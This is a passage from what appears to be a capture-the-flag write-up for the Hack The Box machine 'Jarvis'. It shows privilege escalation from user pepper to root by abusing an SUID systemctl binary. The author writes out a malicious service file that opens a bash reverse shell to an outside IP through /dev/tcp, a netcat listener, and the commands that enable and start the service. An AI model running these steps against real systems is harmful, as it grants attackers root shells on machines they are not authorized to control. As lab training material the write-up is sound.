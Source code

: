 **Now, our `euid` (Effective User ID) is user `pepper`!**

**user.txt:**
```shell
cat /home/pepper/user.txt
{Redacted}
```

### pepper to root

**During the enumeration in `www-data`, we found that `/bin/systemctl` has SUID sticky bit!**

That being said, we can escalate our privilege to `root`!

**You could follow [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid), but I found [this GitHub Gist](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740) is better to me.**

- **Create a service file:**

```sh
cd /dev/shm
cat << EOF > rootrevshell.service
[Unit]
Description=givemerootpls

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.15/53 0>&1'

[Install]
WantedBy=multi-user.target
EOF
```

```shell
ls -lah /dev/shm/rootrevshell.service
-rw-r--r-- 1 pepper pepper 169 Jul 28 09:08 /dev/shm/rootrevshell.service
```

When this service starts, it'll it run as `root` and send a reverse shell payload.

- Setup a netcat listener based on the reverse shell's port:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|21:08:05(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
```

- **Create and start the service:**

```shell
/bin/systemctl enable /dev/shm/rootrevshell.service
Created symlink /etc/systemd/system/multi-user.target.wants/rootrevshell.service -> /dev/shm/rootrevshell.service.
Created symlink /etc/systemd/system/rootrevshell.service -> /dev/shm/rootrevshell.service.

/bin/systemctl start rootrevshell
```
